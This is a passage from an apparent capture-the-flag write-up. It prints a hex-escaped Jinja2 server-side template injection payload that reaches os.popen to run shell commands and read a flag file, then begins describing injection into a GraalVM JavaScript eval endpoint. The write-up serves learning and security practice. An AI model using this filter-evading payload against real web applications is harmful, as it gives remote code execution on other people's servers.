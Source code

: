 Final payload (escaped to show intent):

{% raw %}
```html
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5f\x62uiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5f\x69mport\x5f\x5f')('\x6fs')|attr('\x70open')('id')|attr('cat+*')()}}
```
{% endraw %}


This returned the flag file contents.

![Got flag](assets/img/rocsc/page-14-img-2.png)

---

## java-eval

The site hinted at a dev endpoint (`/index.jsp?eval=test`). The `eval` parameter echoed untrusted input and throwing `'` produced exceptions, while `'+test+'` returned `test`, indicating the parameter is injected inside single quotes and that the server executes polyglot JavaScript (GraalVM style).

![Payload returning error](assets/img/rocsc/page-15-img-1.png)